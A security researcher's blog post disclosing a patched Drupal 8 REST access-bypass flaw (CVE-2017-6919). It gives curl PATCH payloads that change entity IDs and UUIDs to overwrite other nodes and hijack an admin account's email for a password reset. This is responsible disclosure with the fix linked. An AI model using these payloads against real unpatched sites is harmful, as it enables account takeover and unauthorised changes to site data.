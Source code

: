 ```yaml
---
layout: post
title:  "Hijacking Drupal admin accounts using REST"
date:   2018-05-21 08:00:00 -0500
categories: drupal security
---
```

_Note: This exploit was fixed over a year ago as a part of
[SA-CORE-2017-002/CVE-2017-6919], so unless your Drupal 8 site is really,
really out of date, you should not be affected._

When I do security research on Drupal core, I tend to focus on one class of
vulnerability and pursue that until I find something.

You may have heard of [Drupalgeddon], the largest Drupal exploit to date, which
used SQL injection to modify data on vulnerable sites. SQL injection used to be
a lot easier to find, but Drupal core has traditionally been good about
sanitizing user input and forming dynamic queries in a way that’s safe. Even
knowing this, I wanted to find some way to exploit how Drupal executes SQL,
even if that wasn’t a traditional SQL injection attack.

I had been researching REST vulnerabilities at the time, and was poking at
nodes trying to perform malicious POST and PATCH requests to circumvent access
checking, validation, and serialization/normalization. After hours (alright,
more like days) of research, I had nothing. The REST resource for nodes was
solid and the Entity API blocked me every step of the way.

_Note: I researched this vulnerability on Drupal 8.3.1, so if you’re following
along please use that version._

Feeling disparaged, I decided to take a look at the JSON response for a node
again:

```json
{"nid":[{"value":1}],"uuid":[{"value":"c63a2388-8bf8-4f25-b563-8bd88bd1dea1"}],"vid":[{"value":1}],"langcode":[{"value":"en"}],"type":[{"target_id":"article","target_type":"node_type","target_uuid":"ee96e8f7-e0bb-411d-bde3-372e2669721d"}],"status":[{"value":true}],"title":[{"value":"My title"}],"uid":[{"target_id":1,"target_type":"user","target_uuid":"67a7e0a7-57f9-44d0-bbc9-7f43496487c4","url":"\/user\/1"}],"created":[{"value":1526675840}],"changed":[{"value":1526675848}],"promote":[{"value":true}],"sticky":[{"value":false}],"revision_timestamp":[{"value":1526675848}],"revision_uid":[{"target_id":1,"target_type":"user","target_uuid":"67a7e0a7-57f9-44d0-bbc9-7f43496487c4","url":"\/user\/1"}],"revision_log":[],"revision_translation_affected":[{"value":true}],"default_langcode":[{"value":true}],"path":[],"body":[{"value":"\u003Cp\u003EWow the body\u003C\/p\u003E\r\n","format":"basic_html","summary":""}],"comment":[{"status":2,"cid":0,"last_comment_timestamp":1526675848,"last_comment_name":null,"last_comment_uid":1,"comment_count":0}],"field_image":[],"field_tags":[]}
```

The top-level properties there are: nid, uuid, vid, langcode, type, status,
title, uid, created, changed, promote, sticky, revision_timestamp,
revision_uid, revision_log, revision_translation_affected, default_langcode,
path, body, comment, field_image, and field_tags.

When I was trying to exploit REST previously, I was sending bad data for fields
like body (XSS?), path (open redirect?), and field_image (access private
files?). None of this had worked, but I started to wonder about the base fields
in the response, specifically nid and uuid. What happens when you change the ID
or UUID of an entity?

Let’s try it out! We’re going to send a PATCH request for node 1, changing the
nid and title fields in hopes of modifying another entity's data:

```bash
$ curl -u admin:password -X PATCH http://localhost/node/1?_format=json -H 'Content-Type: application/json'
-d '{
      "nid":   [{"value": 2}],
      "type":  "article",
      "title": [{"value": "Hello world"}]
    }'
{"message":"Unprocessable entity: validation failed.\n: The content has either been modified by another user, or you have already submitted modifications. As a result, your changes cannot be saved.\n"}
```

That didn’t work, so next I tried to change the UUID and NID at the same time.
It would make sense that you need to pass a new UUID, as otherwise the UUID
from node 1 would be used, and wouldn't be very unique at all.

Let’s try changing both:

```bash
$ curl -u admin:password -X PATCH http://localhost/node/1?_format=json -H 'Content-Type: application/json'
-d '{
      "nid":   [{"value": 2}],
      "type":  "article",
      "uuid":  [{"value": "6786fd3c-cbc9-49a0-8b07-47ed78ed052e"}],
      "title": [{"value": "Hello world"}]
    }'
{}
```

This is interesting - an empty response was returned, and the response code was
500\.

This error was logged on the server:

```
Drupal\Core\Database\IntegrityConstraintViolationException: SQLSTATE[23000]:
Integrity constraint violation: 19 UNIQUE constraint failed: node.vid:
  UPDATE {node}
    SET nid=:db_update_placeholder_0, vid=:db_update_placeholder_1, type=:db_update_placeholder_2, uuid=:db_update_placeholder_3, langcode=:db_update_placeholder_4
    WHERE nid = :db_condition_placeholder_0; Array ( [:db_update_placeholder_0] => 2 [:db_update_placeholder_1] => 1 [:db_update_placeholder_2] => article [:db_update_placeholder_3] => 6786fd3c-cbc9-49a0-8b07-47ed78ed052e [:db_update_placeholder_4] => en [:db_condition_placeholder_0] => 2 ) in Drupal\Core\Database\Connection->handleQueryException() (line 682 of [redacted]/drupal/core/lib/Drupal/Core/Database/Connection.php).
```

So close! The query got all the way to the database before getting blocked. I
tried passing a random “vid” (revision ID) value, but after some researching
realized that this attack only worked if creating new revisions by default was
disabled for the target Content Type. After more testing I got the exploit
working, and could update any node regardless of my permission level!

The reason this was possible was that the Entity API never expected anyone to
ever update entity keys, so there was never access checking for them. I could
verify how this works in my PHP console:

```php
>>> $user = \Drupal\user\entity\User::getAnonymousUser();
=> Drupal\user\entity\User {#8632
>>> $node = \Drupal::entityTypeManager()->getStorage('node')->load(1);
=> Drupal\node\entity\Node {#9004
>>> // The “status” field can only be changed by users with the
>>> // “administer nodes” permission.
>>> // For details see \Drupal\node\NodeAccessControlHandler::checkFieldAccess
>>> \Drupal::entityTypeManager()
      ->getAccessControlHandler('node')
      ->fieldAccess('edit', $node->getFieldDefinition('status'), $user);
=> false
>>> // There is no explicit access checking for NID!
>>> \Drupal::entityTypeManager()
      ->getAccessControlHandler('node')
      ->fieldAccess('edit', $node->getFieldDefinition('nid'), $user);
=> true
```

To re-cap a bit, the stages of this exploit are:

1. Make an PATCH request to the REST resource for node 1, which our user has
valid access to.
1. Drupal sets the nid to another node's ID (2), and the uuid to a new value.
1. Drupal saves node 1, which generates an SQL query with a “WHERE nid = 2”
condition, allowing updates to node 2’s fields!

The SQL query was fully sanitized, but values and conditions are present that
Drupal did not expect. So strictly no SQL was injected into the query, but the
lack of access checking in the entity API led to an illogical query: “Update
node 1 where the ID is equal to 2”.

Updating arbitrary nodes is fun, but it was quickly clear that the big exploit
here would be to send a PATCH request for the current user, pass the ID of an
admin user, and gain access to their account.

The payload was similar - in this example user 2 changes the email and name of
user 1, which would then let me request a password reset and hijack the
administrative user. Note that the existing password of user 2 (“password”) is
provided as it's required to change the email and name fields:

```bash
$ curl -u admin:password -X PATCH http://localhost/user/2?_format=json -H 'Content-Type: application/json'
-d '{
      "uid":  [{"value": 1}],
      "uuid": [{"value": "2e9403a4-d8af-4096-a116-624710140be0"}],
      "name": [{"value": "yougothacked"}],
      "mail": [{"value": "yougot@hacked.com"}],
      "pass": [{"existing": "password"}]
    }'
```

It worked! Any user with access to update their profile with REST could change
the email and name of any other user on the site. Once an administrative
account has been hacked, attackers can, in the worst case, execute another
exploit to execute remote code on the server.

The Drupal security team treated this as a serious vulnerability and got a fix
out quickly. The code change can be [seen here] - in it the ID and UUID keys
can only be set when an entity is created, not when it’s updated. This was a
great example of a complex problem with a simple exploit and fix.

After the fix for this was released I started working with the security team as
a volunteer, and am now a full member. That means I have less time to research
new vulnerabilities, but am definitely not done hunting yet.

This issue left me wondering about other APIs out there - how many have not
handled the case of a property being changed that eventually results in a SQL
query that updates an unexpected row? Could you replicate this kind of attack
elsewhere, and is there a name for it yet? If I ever end up researching another
API this will definitely be on my list of things to check.

_Thanks to Jess (xjm), Michael Hess, and Moshe Weitzman for reviewing this
before I posted it._

[SA-CORE-2017-002/CVE-2017-6919]: https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2017-04-19/drupal-core-critical-access-bypass
[Drupalgeddon]: https://www.drupal.org/forum/newsletters/security-advisories-for-drupal-core/2014-10-15/sa-core-2014-005-drupal-core-sql
[seen here]: https://cgit.drupalcode.org/drupal/commit/?id=92e613a
